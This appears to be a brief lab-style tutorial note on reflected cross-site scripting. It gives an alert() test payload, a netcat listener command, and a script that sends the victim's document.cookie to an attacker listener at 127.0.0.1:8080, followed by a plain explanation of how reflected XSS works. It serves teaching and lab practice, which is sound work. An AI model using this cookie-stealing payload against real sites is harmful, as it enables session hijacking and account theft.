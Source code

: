 Paste this in the input field:
```
<script>alert('XSS - reflected')</script>
```

for session cookie, you have to listen on local machine to receive cookies

we use `netcat`. Open terminal and rn `nc -lvnp 8080`

This starts listening on the 8080 port then.

now, use this script:
```
<script>document.location='http://127.0.0.1:8080/cookie.php?c='+document.cookie;</script>
```
document.location redirects the browser, here we will redirect it to our server (specifically the 8080 port netcat is listening on). the cookie.php

What is reflected XSS?

Its basically a xss where you are sending a script to the server, the server reflects the script back at the browser as is (it does not reach inside the server) and the browser thinks the server sent the script, so it executes it.
in the above example, we simply made the browser send the cookie to a cookie.php which is the attacker at 127.0.0.1:8080, which is watched by a netcat.